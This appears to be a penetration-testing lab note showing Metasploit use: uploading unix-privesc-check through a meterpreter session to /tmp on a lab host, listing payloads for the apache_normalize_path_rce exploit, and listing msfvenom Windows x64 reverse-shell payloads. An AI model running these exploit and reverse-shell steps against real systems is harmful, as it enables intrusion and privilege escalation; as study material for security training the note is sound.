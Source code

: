 Running `unix-privesc-check` on target using meterpreter

First upload the script to /tmp on the target.

```hlt:1
meterpreter > upload /usr/bin/unix-privesc-check /tmp/
[*] uploading  : /usr/bin/unix-privesc-check -> /tmp/
[*] uploaded   : /usr/bin/unix-privesc-check -> /tmp//unix-privesc-check
```

```hlt:1
meterpreter > ls /tmp
Listing: /tmp
=============

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
...
100644/rw-r--r--  36801    fil   2022-08-08 05:26:15 -0400  unix-privesc-check
```

Using another linux 64 bit payload.

Exiting shell session 

```hlt:1
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.50.16 - Meterpreter session 4 closed.  Reason: User exit
```

Disp payloads 

```hlt:1,9
msf6 exploit(multi/http/apache_normalize_path_rce) > show payloads

Compatible Payloads
===================

   #   Name                                              Disclosure Date  Rank    Check  Description
   -   ----                                              ---------------  ----    -----  -----------
   ...
   10  payload/linux/x64/meterpreter_reverse_https                        normal  No     Linux Meterpreter, Reverse HTTPS Inline
   ...
```

### Executable Payloads

Listing msfvenom payloads available for Windows x64

```hlt:1
kali@kali:~$ msfvenom -l payloads --platform windows --arch x64 

...
windows/x64/shell/reverse_tcp               Spawn a piped command shell (Windows x64) (staged). Connect back to the attacker (Windows x64)
...
windows/x64/shell_reverse_tcp               Connect back to attacker and spawn a command shell (Windows x64)
...
```
Both staged and non-staged payload options
